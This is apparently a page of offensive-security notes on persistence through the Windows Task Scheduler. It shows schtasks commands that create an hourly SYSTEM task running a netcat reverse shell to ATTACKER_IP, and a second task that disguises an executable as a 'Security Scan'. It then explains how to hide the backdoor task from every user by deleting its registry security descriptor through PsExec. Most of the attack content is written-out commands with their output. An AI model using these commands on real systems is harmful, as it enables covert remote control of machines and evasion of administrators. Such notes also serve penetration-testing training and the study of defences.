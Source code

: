 # Task Scheduler

### Schtasks Quick Reference

```
#normal task 15 minutes 
SCHTASKS /create /sc minute /mo 15 /tn "Security Scan" /tr "C:\Windows\System32\spool\drivers\color\patch.exe" 
#query all 
SCHTASKS /query
#delete task 
schtasks /delete /tn "\Security Scan" /F
```

* The most common way to schedule tasks is using the built-in Windows task scheduler.
* Let's create a task that runs a reverse shell every single hour.

```
schtasks /create /sc hourly /mo 1 /tn TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe ATTACKER_IP 4449" /ru SYSTEM
SUCCESS: The scheduled task "TaskBackdoor" has successfully been created.
```

* To check if our task was successfully created, we can use the following command:

```
schtasks /query /tn TaskBackdoor
Folder: \
TaskName                                 Next Run Time          Status
======================================== ====================== ===============
TaskBackdoor                         5/25/2022 8:08:00 AM   Ready
```

### Making Our Task Invisible

* Our task should be up and running by now, but if the compromised user tries to list its scheduled tasks, our backdoor will be noticeable.
* To further hide our scheduled task, we can make it invisible to any user in the system by deleting its `Security Descriptor (SD)`. The security descriptor is simply an ACL that states which users have access to the scheduled task.
* If your user isn't allowed to query a scheduled task, you won't be able to see it anymore, as Windows only shows you the tasks that you have permission to use. -
* Deleting the SD is equivalent to disallowing all users' access to the scheduled task, including administrators.
* The security descriptors of all scheduled tasks are stored in `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\`. You will find a registry key for every task, under which a value named "`SD`" contains the security descriptor.
* **You can only erase the value if you hold `SYSTEM` privileges.**
* To hide our task, let's delete the `SD` value for the "`TaskBackdoor`" task we created before. To do so, we will use `psexec` to open Regedit with SYSTEM privileges:

```
c:\tools\pstools\PsExec64.exe -s -i regedit
```

* We will then delete the security descriptor for our task:
*

    <figure><img src="https://user-images.githubusercontent.com/75596877/181060133-34619dcd-33be-40f5-aa62-2fead6f2b4de.png" alt=""><figcaption></figcaption></figure>
* If we try to query our service again, the system will tell us there is no such task:

```
schtasks /query /tn TaskBackdoors
ERROR: The system cannot find the file specified.
```
